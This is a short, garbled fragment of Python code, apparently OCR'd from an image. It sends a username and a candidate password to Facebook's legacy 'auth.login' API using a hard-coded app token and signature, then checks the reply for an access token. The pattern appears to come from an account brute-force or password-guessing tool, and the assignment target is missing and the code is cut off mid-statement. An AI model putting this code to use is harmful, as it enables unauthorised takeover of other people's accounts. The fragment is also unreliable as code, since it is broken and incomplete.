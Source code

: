 = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass3 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                             q = json.load(data)                             if 'access_token' in q:                                 print